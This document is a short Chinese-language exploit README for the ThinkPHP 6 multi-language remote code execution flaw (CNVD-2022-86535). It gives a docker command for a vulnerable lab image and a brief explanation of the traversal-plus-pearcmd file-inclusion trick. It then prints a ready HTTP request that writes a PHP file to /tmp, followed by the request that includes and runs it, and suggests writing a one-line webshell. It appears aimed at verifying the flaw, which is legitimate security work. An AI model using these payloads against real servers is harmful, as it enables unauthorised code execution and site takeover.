



# ThinkPHP多语言RCE (CNVD-2022-86535)

* 运行环境
```
docker run -itd -p 80:80 vulfocus/thinkphp:6.0.12
```

## 简介
如果 Thinkphp 程序开启了多语言功能，攻击者可以通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE


利用条件: 需要知道pearcmd物理路径

参考: https://mp.weixin.qq.com/s/jECbQ4KodbCrEvoCQFSosw

## Payload
1. 写入php文件
```
GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=md5(367258)?>+/tmp/367258.php HTTP/1.1
Host: XXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Content-Type: application/x-www-form-urlencoded
Accept: */*
Connection: close
Accept-Encoding: gzip, deflate
```


2. 包含php文件
```
/index.php?lang=../../../../../../../../tmp/367258
```

## vulcat
* 利用vulcat验证漏洞



* 如果知道网站物理路径，可以尝试写入一句话


